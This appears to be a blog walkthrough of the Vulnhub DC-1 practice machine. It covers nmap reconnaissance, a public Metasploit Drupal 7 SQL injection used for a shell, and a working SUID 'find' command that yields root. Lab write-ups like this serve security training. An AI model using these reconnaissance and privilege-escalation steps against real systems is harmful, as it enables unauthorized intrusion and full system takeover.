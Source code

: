 ```yaml
---
layout: single
title: "Vulnhub DC-1 Walkthrough"
date: 2023-10-18
author_profile: true
comments: true
categories:
  - DC-Series
tags: []
header:
  overlay_image: /assets/images/dc-1/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-1 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the DC-1 machine from Vulnhub."
feature_row:
  - image_path: /assets/images/dc-1/cover.png
    alt: "DC-1 Cover"
    title: "DC-1 Walkthrough"
    excerpt: "A practical guide to rooting the DC-1 Vulnhub machine."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```





This box is relatively straightforward; there are publicly available exploits that make it even easier. To gain an initial foothold, all we need to do is identify the service and its version. Once we have this information, a quick search on Google or in the Searchsploit database provides us with a suitable exploit. The Metasploit framework offers a good exploit in many cases, which I utilized.

For privilege escalation, we need to locate SUID binaries and abuse them. In this instance, there were two such binaries: 'exim4' and 'find.' The techniques and tactics for this type of privilege escalation are also publicly available.

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39675/tcp   status
|   100024  1          42139/tcp6  status
|   100024  1          47521/udp6  status
|_  100024  1          50689/udp   status
39675/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the Nmap results, various services confirmed that it's a Debian-based Linux machine. Only a few minimal ports are open, with the most promising one being port 80. Port 22 is also open, but I currently lack the credentials to attempt an SSH attack. Therefore, I will begin my investigation by focusing on the web server running on port 80. 

# Manual Inspection
![](/assets/images/dc-1/manual-inspection.png)

This site is built with the Drupal content management system, and our Nmap scan confirmed that it's running Drupal version 7. Rather than wasting time, I decided to search for publicly available exploits for Drupal 7. Using Searchsploit, I found a Metasploit exploit.

![](/assets/images/dc-1/searchsploit.png)

Let's proceed to Metasploit and check for exploits. While searching in Metasploit, I discovered a SQL injection vulnerability. Let's start by attempting this one first.

![](/assets/images/dc-1/msf-search.png)

# Initial Foothold

![](/assets/images/dc-1/Initial-foothold.png)

This application is vulnerable to a SQL injection vulnerability, which allowed me to gain a remote shell on the machine. I've obtained the initial foothold, and now it's time to proceed with privilege escalation to gain root privileges.

# Post Enumeration

After obtaining the initial foothold, I conducted a thorough examination of the file system permissions, looking for misconfiguration, extra privilege files, and possible stored passwords. During this process, I checked for SUID files and identified two potential privilege escalation vectors: 'find' and 'exim4.' Both of these files have SUID permissions, making it relatively easy to abuse this type of permission for privilege escalation

```bash
Command: find / -perm -u=s -type f 2>/dev/null

Response: 

/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

# Privilege Escalation

First, I would like to attempt privilege escalation using the 'find' command. There is a payload available in GTFOBins for this purpose.

```bash
bash-4.2$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.2# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

It worked, and I've achieved root access. It shows that my user is still 'www-data', but my EUID is 0 (root), and my groups are 0 (root). This means I have all the permissions of the root user.

![](/assets/images/dc-1/root.png)


#h@ppyh@cking